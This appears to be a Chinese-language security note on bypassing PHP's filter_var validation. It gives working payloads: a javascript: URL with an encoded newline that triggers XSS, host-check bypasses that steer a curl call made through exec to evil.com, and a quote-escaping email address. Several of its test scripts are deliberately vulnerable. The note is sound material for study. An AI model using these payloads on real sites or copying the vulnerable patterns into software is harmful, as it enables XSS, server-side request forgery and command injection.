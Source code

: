 # filter_var

## filter_var

### 函数结构

```
filter_var ( mixed $variable [, int $filter = FILTER_DEFAULT [, mixed $options ]] ) : mixed
```
### FILTER_VALIDATE_URL

#### 参考

- https://secure.php.net/manual/zh/function.filter-var.php
- https://www.anquanke.com/post/id/101058

#### 测试javascript协议

```php
filter_var('javascript://comment%250Aalert(1)', FILTER_VALIDATE_URL);
```

上述代码可能会导致XSS攻击。

因为`//`在JavaScript中表示单行注释，`%250a`解码后为换行符，所以`alert(1)`和`//`不在一行，js代码成功执行。

##### 测试代码

```php
<?php
$url = filter_var($_GET['url'],FILTER_VALIDATE_URL);
var_dump($url);
$url=htmlspecialchars($url);
var_dump($url);
echo "<a href='$url'>Next slide </a>";
```

![](../images/19-7-23_PHP_filter-var_filter-validate-url_1.png)

#### 利用filter_var和curl的差异

##### 利用条件

- curl<=7.47.0（win下7.55.1不可用）

##### 测试代码

在如下脚本中：

```php
<?php
   $url = $_GET['url'];
   echo "Argument: ".$url."\n";
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      var_dump($r);
      if(preg_match('/skysec\.top$/', $r['host'])) {
          echo 'start curl';
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
?>
```
可用payload：
```url
访问evil.com:2333
?url=0://evil.com:23333;skysec.top:80/
访问evil.top
?url=0://evil.com$skysec.top
访问evil.com:80
?url=0://evil.com:80$skysec.top
```



### FILTER_VALIDATE_EMAIL

##### 参考

- https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html#0x03-filter_validate_email
- https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly

##### 测试

测试代码如下，绕过方法为：`"Joe'Blow"@example.com`，逃逸单引号。
```php
<?php
$email = '"Joe\'Blow"@example.com';
if (filter_var($email, FILTER_VALIDATE_EMAIL))
        var_dump(filter_var($email, FILTER_VALIDATE_EMAIL));
else
        echo "email not correct";

//C:\Users\j7ur8\Desktop\test.php:4:string(22) ""Joe'Blow"@example.com"
?>
```
